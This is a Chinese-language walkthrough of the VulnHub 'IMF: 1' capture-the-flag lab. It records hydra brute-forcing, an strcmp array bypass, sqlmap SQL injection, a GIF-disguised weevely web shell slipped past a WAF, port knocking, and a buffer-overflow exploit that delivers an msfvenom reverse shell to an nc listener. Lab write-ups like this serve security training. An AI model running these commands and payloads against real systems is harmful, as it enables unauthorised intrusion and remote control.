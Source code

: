 # IMF: 1

https://www.vulnhub.com/entry/imf-1,162/

difficulty: Beginner/Moderate

Finish Date：2024-4-13

## IP

192.168.10.159

## Scan

Open Port -> 80

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: IMF - Homepage
```

只开放了一个端口：80，访问 web 服务，查看源代码，看是否能找到隐藏信息。

## flag1

view-source:http://192.168.10.159/contact.php

```
<!-- flag1{YWxsdGhlZmlsZXM=} -->    --> allthefiles
```

## flag2

发现的几个 js 文件的名，好像是个 base64

```
<script src="js/ZmxhZzJ7YVcxbVl.js"></script>
<script src="js/XUnRhVzVwYzNS.js"></script>
<script src="js/eVlYUnZjZz09fQ==.min.js"></script>
```

组合起来是：ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ== --> flag2{aW1mYWRtaW5pc3RyYXRvcg==}

aW1mYWRtaW5pc3RyYXRvcg== --> imfadministrator 像是一个目录名，访问：http://192.168.10.159/imfadministrator/ 显示的是一个登陆框，源代码中有提示： I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger

根据提示，没有使用 SQL，密码是硬编码的，需要获得才能进入。尝试随便输入个用户名和密码，有详细提示：Invalid username.可以先借助这个提示先去找到用户名。

先用 cewl 搜集用户名：cewl -d 3 http://192.168.10.159/ -w user

然后使用 hydra 进行爆破，先找到用户名：

```
hydra -t 20 -L user -p 1 192.168.10.159 -f http-post-form "/imfadministrator/:user=^USER^&pass=1:F=Invalid username."

[80][http-post-form] host: 192.168.10.159   login: rmichaels   password: 1
```

## flag3

根据用户名 rmichaels 去爆破密码，但是没有爆破出来，看样子需要换个方向。根据提示后台代码没有使用 sql 查询，使用的是一个固定的密码，应该是输入的密码和设定的密码进行比较，常用的 php 比较函数是 strcmp，这个函数可能存在绕过的漏洞，猜测后台是利用了 strcmp($POST['pass'],'xxxx')，strcmp 比较的是字符串类型，如果强行传入其他类型参数，会出错，出错后返回值 0，如果返回 0，正好是我们想要的，所以利用 bp 抓包修改数据包为：

```
user=rmichaels&pass[]=1
```

得到页面：

```
flag3{Y29udGludWVUT2Ntcw==}   --> continueTOcms
Welcome, rmichaels<a href='cms.php?pagename=home'>IMF CMS</a>
```

根据提示，访问：http://192.168.10.159/imfadministrator/cms.php?pagename=home 点开上面的三个按钮，分别能显示不同的页面，仔细观察这个参数 pagename=home 好像存在文件包含漏洞，进行漏洞验证，经过尝试后，暂时没有发现文件包含。

再次思考，还有那些地方能需要参数，有可能是 SQL 查询，尝试把参数替换为 pagename=home' or 1=1 -- - 出现了重要信息：Warning: mysqli_fetch_row() expects parameter 1 to be mysqli_result, boolean given in /var/www/html/imfadministrator/cms.php on line 29

证明我们的思路是对的，直接在 bp 中把访问请求保存到文件中，用 sqlmap 去跑，根据上面错误提示是 mysql 数据库：

```
sqlmap -r req.txt --batch --dbms=mysql --dbs

[*] admin
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

## flag4

admin 数据库中有 pages 表，发现了另外一个页面：tutorials-incomplete，进行访问。http://192.168.10.159/imfadministrator/cms.php?pagename=tutorials-incomplete 页面的图片中有一个二维码，识别看看是什么内容。

得到 flag4：flag4{dXBsb2Fkcjk0Mi5waHA=} --> uploadr942.php 得到了一个上传页面，http://192.168.10.159/imfadministrator/uploadr942.php 应该是能执行 rce 了。

上传文件进行简单测试，发现对文件类型有过滤，只能上传图片类型，需要进行绕过。但是在上传图片后，页面上不能直接显示图片的上传路径，但是查看源代码时，发现会注释一串字符：a7441985e282，不是 base64 编码值，可能是上传后重新随机生成的文件名。经过测试，发现上传的文件存放在路径下：http://192.168.10.159/imfadministrator/uploads/a7441985e282.png

上传 php 图片马时，会有提示 Error: CrappyWAF detected malware. Signature: fsockopen php function detected ，WAF 会对一些特殊函数进行检测。经过寻找，发现上传 gif 时，其中的 php 代码可以被执行，先生成变异的后门代码：

```
weevely generate 123 door.php
```

然后修改后缀名为 door.gif，上传文件时，在 bp 中抓包，给上传内容添加文件头 GIF89a，然后就能正常上传了，访问 http://192.168.10.159/imfadministrator/uploads/a0b2ea8cb63b.gif 能看到我们上传的图片马已经被执行了，继续用 weevely 进行连接。

```
weevely http://192.168.10.159/imfadministrator/uploads/a0b2ea8cb63b.gif 123
```

进行验证，为什么 gif 能够被执行：

```
www-data@imf:/var/www/html/imfadministrator/uploads $ cat .htaccess
AddType application/x-httpd-php .php .gif
AddHandler application/x-httpd-php .gif
```

## flag5

ls 当前目录得到了 flag5.txt：flag5{YWdlbnRzZXJ2aWNlcw==} --> agentservices ，根据提示好像是一个服务名，看看 ps 能不能找到：

```
www-data@imf:/ $ find / -type f -name agent 2>/dev/null
/usr/local/bin/agent
```

或者 cat /etc/services|grep -i agent 也能看到 agent 启动在 7788 端口。

先看看这个文件中有什么信息：strings /usr/local/bin/agent，执行 /usr/local/bin/agent 后发现启动了 7788 端口，并且在 agent 同目录下生成了：

```
www-data@imf:/usr/local/bin $ cat access_codes
SYN 7482,8279,9467
```

提示要进行端口敲门才可以，端口敲门是一种用于限制对端口的访问的技术，方法是仅允许以顺序方式发送或“敲门”某些端口的用户访问端口（打开端口）。例如，服务器可以配置为阻止每个用户访问其 SSH 服务器（端口 22），除非用户将 SYN 数据包发送到预定义的端口序列（1234、4567、8901）。

kali 上安装 knockd : sudo apt-get install knockd，然后对端口 7788 端口进行敲门，开启端口：

```
knock 192.168.10.159 7482:tcp 8279:tcp 9467:tcp
```

这时在用 nmap 扫描，发现 7788 端口已经能够开放。

## flag6

二进制这里不熟悉，找的网上的 exp 进行的利用：https://github.com/secnigma/my_exploits/blob/main/imf/exploit-python3.py ，先修改脚本中 rhost= "192.168.10.159" ，用 msfvenom 生成对应自己机器的 paylaod 对 py 脚本中的相应内容进行替换：

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.10.3 LPORT=8888 -f python -b "\x00\x0a\x0d"

nc -lvnp 8888

python3 exploit-python3.py
```

最终在反弹的 shell 中，在/root 下得到了 flag6：flag6{R2gwc3RQcm90MGMwbHM=} --> Gh0stProt0c0ls

```
cat Flag.txt
flag6{R2gwc3RQcm90MGMwbHM=}
cat TheEnd.txt
   ____                        _ __   __
  /  _/_ _  ___  ___  ___ ___ (_) /  / /__
 _/ //  ' \/ _ \/ _ \(_-<(_-</ / _ \/ / -_)
/___/_/_/_/ .__/\___/___/___/_/_.__/_/\__/
   __  __/_/        _
  /  |/  (_)__ ___ (_)__  ___
 / /|_/ / (_-<(_-</ / _ \/ _ \
/_/__/_/_/___/___/_/\___/_//_/
  / __/__  ___________
 / _// _ \/ __/ __/ -_)
/_/  \___/_/  \__/\__/

Congratulations on finishing the IMF Boot2Root CTF. I hope you enjoyed it.
Thank you for trying this challenge and please send any feedback.

Geckom
Twitter: @g3ck0ma
Email: geckom@redteamr.com
Web: http://redteamr.com

Special Thanks
Binary Advice: OJ (@TheColonial) and Justin Stevens (@justinsteven)
Web Advice: Menztrual (@menztrual)
Testers: dook (@dooktwit), Menztrual (@menztrual), llid3nlq and OJ(@TheColonial)

```
